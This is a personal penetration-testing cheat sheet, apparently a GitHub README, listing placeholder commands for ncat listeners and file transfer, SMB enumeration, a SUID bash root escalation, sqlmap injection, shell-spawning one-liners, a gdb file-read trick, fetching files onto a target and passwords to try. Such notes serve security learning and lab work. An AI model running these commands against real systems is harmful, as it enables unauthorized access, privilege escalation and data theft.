 # HackNotes 【第一】🐱‍💻 my personal pentest notes

## Introduction to Cyber Security

Cybersecurity is the body of technologies, processes and practices designed to protect networks, computers, programs and data from attack, damage or unauthorized access

## Basics

### nmap-ncat
##### Listen to Inbound Connections
`ncat -l [PORT]`
##### Connect to Remote System
`ncat [IP] [PORT]`
##### Copy Files Using ncat
Receiver: `ncat -l [PORT] > file.ext`
Sender: `ncat [IP] [PORT] --send-only < file.ext`

### SSH
ssh []@[] -i []
permission too open
`chmod 600 []`

### SMB
`smbclient -L [IP]`
`smbclient \\\\[IP]\\\[SHARENAME]`
##### try for write permission
`mkdir [DIR]`

##### Free root
-bash-5.0$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Feb 25  2020 /bin/bash
type
`/bin/bash -p`

### SCP (Secure Copy)
##### Basic Syntax
`scp [SOURCE_FILE_PATH] [DESTINATION_FILE_PATH]`
##### Sending File From Remote Host to Local Host
`scp [user]@[IP]:/[PATH]/[PATH]/file.ext outputfile.ext`

### wget
##### Prepate the HTTP Server
`python-m http.server [PORT]`
##### On the Target Machine
`wget [IP/URL]:[PORT] -O filename.ext`

###SQL injection
#####sqlmap
`sqlmap --batch -u "[URL]" --data "[DATA]" --cookie "[]" -p [PARAM] --level=5 --dbms=[DB] --technique=T --dbs`

### Spawning 🐚
##### python
`python -c 'import pty; pty.spawn("/bin/sh")'`
##### echo
`echo 'os.system('/bin/bash')'`
##### bash
`/bin/bash -i`
##### sh
`/bin/sh -i`

### Useful Trickeries
##### gdb file read 
`gdb -nx -ex 'python print(open("file_to_read").read())' -ex quit`

### Bad Passwords worth to try
- qazwsxedc
- p4ssw0rd

## Searching for Subdomains
### theHarvester
`theHarvester --domain [DOMAIN] --limit 1000 --source all`

## Misc

### WPScan
`wpscan --url [IP/URL] --api-token [TOKEN]`

### Encode Base64
the file name is base64.txt
`cat base64.txt | base64 -d`

### Fix Kali Linux WSL ping problem
`sudo setcap cap_net_raw+ep /usr/bin/ping`

### Easy Pentest Steps
#### Black-Box

## Learn From Walkthroughs
- https://www.hackingarticles.in/seppuku1-vulnhub-walkthrough/ (brute forcing basic authentication)
- https://falconspy.medium.com/infosec-prep-oscp-vulnhubwalkthrough-a09519236025 (oscp material)
- https://offsecdeer.gitlab.io/post/vulnhub-walkthrough-dawn/ (SMB)

